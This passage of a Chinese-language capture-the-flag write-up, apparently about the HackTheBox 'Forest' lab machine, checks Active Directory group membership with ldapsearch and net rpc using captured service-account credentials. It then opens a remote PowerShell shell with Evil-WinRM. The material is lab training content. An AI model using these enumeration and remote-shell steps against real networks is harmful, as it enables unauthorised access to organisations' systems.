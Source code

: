 从`nmap`扫描来看，我们可以用来获得交互式 shell 的服务很少:SMB (TCP/445)和 WinRM (TCP/5985)。对于中小型企业来说，除非我们有机器上的管理权限，否则我们使用远程客户端如`psexec.py`或`wmiexec.py`获得外壳是有限的。但是，对于 WinRM，如果我们的用户帐户是“远程管理用户”组的一部分，我们可以获得一个基于 PowerShell 的 Shell。我使用以下命令来验证“svc-alfresco”用户确实是“远程管理用户”的一部分:

```
**[LDAP to Query Members of the "Remote Management Users"]**
$ ldapsearch -H ldap://10.10.10.161 -x -b DC=htb,DC=local | grep -A 11 -i "Remote Management Users"**[NET RPC Command - Query "Privileged IT Accounts"]**
$ net rpc group members 'Privileged IT Accounts' -W 'htb.local' -I '10.10.10.161' -U'svc-alfresco'%'s3rvice' 2>&1**[NET RPC Command - Query "Service Accounts"]**
$ net rpc group members 'Service Accounts' -W 'htb.local' -I '10.10.10.161' -U'svc-alfresco'%'s3rvice' 2>&1
```

![](img/dd4f07acbab7335482fd82570e3e1ebd.png)

对于外壳，我们可以使用一个叫做`[Evil-WinRM](https://github.com/Hackplayers/evil-winrm)`的工具。

```
$ ruby evil-winrm.rb -i 10.10.10.161 -u svc-alfresco -p s3rvice
```

![](img/a58bd463303eaedcb5855d38dffd90b8.png)
